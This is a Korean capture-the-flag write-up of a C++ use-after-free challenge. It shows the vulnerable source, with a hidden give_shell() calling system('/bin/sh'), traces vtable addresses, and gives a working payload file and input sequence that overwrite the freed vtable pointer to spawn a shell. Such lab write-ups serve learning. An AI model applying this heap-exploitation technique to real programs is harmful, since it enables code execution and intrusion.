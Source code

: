 
\#include \<fcntl.h></br>
\#include \<iostream></br>
\#include \<cstring></br>
\#include \<cstdlib></br>
\#include \<unistd.h></br>
using namespace std;</br>

class Human{</br>
private:</br>
	virtual void give_shell(){</br>
		system("/bin/sh");</br>
	}</br>
protected:</br>
	int age;</br>
	string name;</br>
public:</br>
	virtual void introduce(){ </br>
		cout << "My name is " << name << endl;</br>
		cout << "I am " << age << " years old" << endl;</br>
	}</br>
};</br>

class Man: public Human{</br>
public:</br>
	Man(string name, int age){</br>
		this->name = name;</br>
		this->age = age;</br>
        }</br>
        virtual void introduce(){</br>
		Human::introduce();</br>
                cout << "I am a nice guy!" << endl;</br>
        }</br>
};</br>

class Woman: public Human{</br>
public:</br>
        Woman(string name, int age){</br>
                this->name = name;</br>
                this->age = age;</br>
        }</br>
        virtual void introduce(){</br>
                Human::introduce();</br>
                cout << "I am a cute girl!" << endl;</br>
        }</br>
};</br>

int main(int argc, char* argv[]){</br>
	Human* m = new Man("Jack", 25);</br>
	Human* w = new Woman("Jill", 21);</br>

	size_t len;</br>
	char* data;</br>
	unsigned int op;</br>
	while(1){</br>
		cout << "1. use\n2. after\n3. free\n";</br>
		cin >> op;</br>

		switch(op){</br>
			case 1:</br>
				m->introduce();</br>
				w->introduce();</br>
				break;</br>
			case 2:</br>
				len = atoi(argv[1]);</br>
				data = new char[len];</br>
				read(open(argv[2], O_RDONLY), data, len);</br>
				cout \<< "your data is allocated" << endl;</br>
				break;</br>
			case 3:</br>
				delete m;</br>
				delete w;</br>
				break;</br>
			default:</br>
				break;</br>
		}</br>
	}</br>
</br>
	return 0;	</br>
}</br>
</br>

처음 1을 입력->3을 입력해서 free를 해보자

c25c50(이건 바뀜)->401570->40117a(HUMAN의 give_shell)인데, +8해서 401578->4012d2(MAN의 introduce) 후자가 실행된다.	
	3을 입력하면 c25c50이 401590->40117a 으로 바뀐 후, c25c50이 모두 지워져버린다.	 
c25ca0->401550->40117a(HUMAN의 give_shell)인데, +8해서 401558->401376(WOMAN의 introduce)이 실행된다. 
	이 또한, 3을 입력하면, c25ca0이 401590->40117a으로 바뀐 후, c25ca0이 모두 지워버린다.

1->3 delete하지 않고, 2를 할 경우
1->2 c25ca0보다 훨씬 뒤에 입력이 된다.
b40c50, b40ca0일때 -> b414e0 b41510
/tmp/file을 만드는 법
python -c 'print "AAAA"' > /tmp/file

1->3->2 c25ca0에 AAAA입력 된다. 1->3->2->2 c25ca0에 AAAA입력, c25c50에 AAAA입력
Use after free를 이용!!(free된 후, free된 부분에 덮어써진다.)
그러면 c25c50에 0x401568이 입력되면, +8인 0x401570이 실행되고, 0x40117a가 실행되어 쉘이 따진다!

python -c 'print "\x68\x15\x40"' > /tmp/file
./uaf 3 /tmp/file
1->3->2->2->1
